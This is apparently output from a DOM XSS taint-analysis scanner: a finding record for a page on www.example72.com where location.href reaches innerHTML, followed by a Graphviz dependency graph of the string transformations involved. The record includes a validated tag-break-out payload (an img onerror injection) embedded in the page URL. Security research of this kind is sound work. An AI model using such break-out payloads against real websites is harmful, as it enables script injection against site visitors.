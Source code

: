 // Finding: 8d858b4d-4ff7-4640-b0a7-cc122c7253da
// Finding.url: https://www.example72.com/resources/community-banking/##</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('5caf2e133b2549d2a67f526c30209cfb')><!--/*
// Finding.parentloc: https://www.example72.com/resources/community-banking/##</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('5caf2e133b2549d2a67f526c30209cfb')><!--/*
// Finding.domain: www.example72.com
// Finding.base_domain: example72.com
// Finding.source: location.href
// Finding.sink: innerHTML
// Sanitizer.score: 2
// Sanitizer.name: 
// Sanitizer.location: https://www.example72.com/resources/community-banking/##</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('5caf2e133b2549d2a67f526c30209cfb')><!--/* - <anonymous>:1065:15
// Finding.begin: 372
// Finding.end: 373
// Finding.original_uuid: e8c20b73-19ee-4e5b-8841-7b783616a3cc
// Finding.TwentyFiveMillionFlowsId: 420132770
// Finding.script: https://www.example72.com/assets/javascript/jquery-3.4.1.min.js
// Finding.line: 2
// Exploit.uuid: 5caf2e13-3b25-49d2-a67f-526c30209cfb
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: text
// Exploit.content: C
// Exploit.quote_type: None
// Exploit.tag: None
// Exploit.break_out: #</iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: #</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 15
// Exploit.end_taint_url: 16
// Exploit.replace_begin_url: 49
// Exploit.replace_end_url: 49
// Exploit.replace_begin_param: 182
// Exploit.replace_end_param: 182
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: true
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -1620647908
// DepGraph.sanitizer_hash: -1233395366
// Removed LR concats 
// Removed LR concats 
digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="str_replace_once"];
n2 [shape=box, label="RegExp: /(\?.*)$/"];
n3 [shape=box, label="Lit: "];
n4 [shape=box, label="Var: x"];
n5 [shape=ellipse, label="split"];
n6 [shape=box, label="Lit: /"];
n7 [shape=box, label="Var: x"];
n8 [shape=ellipse, label="char_at"];
n9 [shape=box, label="Lit: 0"];
n10 [shape=box, label="Var: x"];
n11 [shape=ellipse, label="strtoupper"];
n12 [shape=box, label="Var: x"];
n13 [shape=ellipse, label="preg_replace"];
n14 [shape=box, label="RegExp: /[-]/"];
n15 [shape=box, label="Lit: "];
n16 [shape=box, label="Var: x"];
n17 [shape=ellipse, label="str_replace_once"];
n18 [shape=box, label="RegExp: /\.(htm[l]?|asp[x]?|php|jsp)$/"];
n19 [shape=box, label="Lit:  "];
n20 [shape=box, label="Var: x"];
n21 [shape=ellipse, label="str_replace_once"];
n22 [shape=box, label="RegExp: /\.(htm[l]?|asp[x]?|php|jsp)$/"];
n23 [shape=box, label="Lit:  "];
n24 [shape=box, label="Var: x"];
n25 [shape=ellipse, label="."];
n26 [shape=box, label="Lit:  "];
n27 [shape=ellipse, label="."];
n28 [shape=box, label="Lit:  "];
n29 [shape=ellipse, label="preg_replace"];
n30 [shape=box, label="RegExp: /[-]/"];
n31 [shape=box, label="Lit:  "];
n32 [shape=box, label="Var: x"];
n33 [shape=ellipse, label="."];
n34 [shape=box, label="Lit: </a></li>"];
n35 [shape=box, label="Var: x"];
n36 [shape=doubleoctagon, label="Return: x"];
n4 -> n0;
n1 -> n2;
n1 -> n3;
n1 -> n4;
n7 -> n1;
n5 -> n6;
n5 -> n7;
n10 -> n5;
n8 -> n9;
n8 -> n10;
n12 -> n8;
n11 -> n12;
n16 -> n11;
n13 -> n14;
n13 -> n15;
n13 -> n16;
n20 -> n13;
n17 -> n18;
n17 -> n19;
n17 -> n20;
n24 -> n17;
n21 -> n22;
n21 -> n23;
n21 -> n24;
n25 -> n21;
n25 -> n26;
n27 -> n25;
n27 -> n28;
n32 -> n27;
n29 -> n30;
n29 -> n31;
n29 -> n32;
n33 -> n29;
n33 -> n34;
n35 -> n33;
n36 -> n35;
}